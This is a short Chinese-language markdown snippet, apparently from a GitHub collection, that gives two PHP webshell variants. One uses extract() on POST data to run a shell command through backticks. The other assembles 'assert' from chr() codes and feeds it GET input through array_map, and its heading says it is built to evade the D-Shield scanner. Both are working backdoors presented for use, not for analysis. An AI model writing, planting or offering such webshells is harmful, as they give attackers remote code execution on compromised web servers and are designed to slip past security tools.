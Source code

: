 
**extract 变量**

```php
<?php  
$a=1;
$b=$_POST;
extract($b);
print_r(`$a`)
?>
```
![](img/2.png)

* 注意该马无法直接使用蚁剑连接。



**array_map函数过D盾 需PHP版本<7.1**

```php
<?php
function user()
{
$a123 =  chr(97).chr(115).chr(115).chr(101).chr(114).chr(116);
return ''.$a123;
}
$a123 = user();
$x123 =array($_GET['shell']);
array_map($a123,$a123 = $x123 );
?>

```
* 注意该马无法直接使用蚁剑连接。
